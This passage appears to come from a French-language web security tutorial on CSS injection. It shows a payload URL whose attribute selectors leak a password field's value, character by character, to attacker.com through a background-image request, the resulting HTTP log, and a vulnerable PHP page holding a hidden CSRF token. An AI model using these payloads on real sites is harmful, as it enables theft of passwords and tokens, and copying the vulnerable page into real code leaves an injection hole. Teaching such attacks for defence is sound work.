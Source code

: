 L'attaquant continuera son attaque en itérant sur les prochains caractères :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/css-injection-element-password.php?color=black;}input[name=password][value^=az]{background-image:url(https://attacker.com/?leak=az);}
```
{% endcode %}

{% code overflow="wrap" %}
```http
GET /?leak=az HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

### Récupération de la valeur d'un attribut d'un élément HTML de type hidden via les sélecteurs d'attribut CSS

Malheureusement, la technique précédente ne fonctionne pas sur les champs `<input>` de type `hidden`. Cela pourrait pourtant être utile dans le cas ou l'application vulnérable utilise des champs cachés pour transmettre des jetons anti-CSRF par exemple :

{% code overflow="wrap" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
      h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Attribute selectors iframe with hidden input</h1>
    <form action="" method="POST">
        <input type="password" name="newPassword" placeholder="New Password">
        <input type="password" name="confirmNewPassword" placeholder="Confirm New Password">
        <input type="hidden" name="csrf-token" value="a5ccef6a-1f00-4a02-b16b-e4e9e517b223">
        <input type="submit" name="changePassword" value="Continue">
    </form>
  </body>
</html>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (205).png" alt=""><figcaption></figcaption></figure>
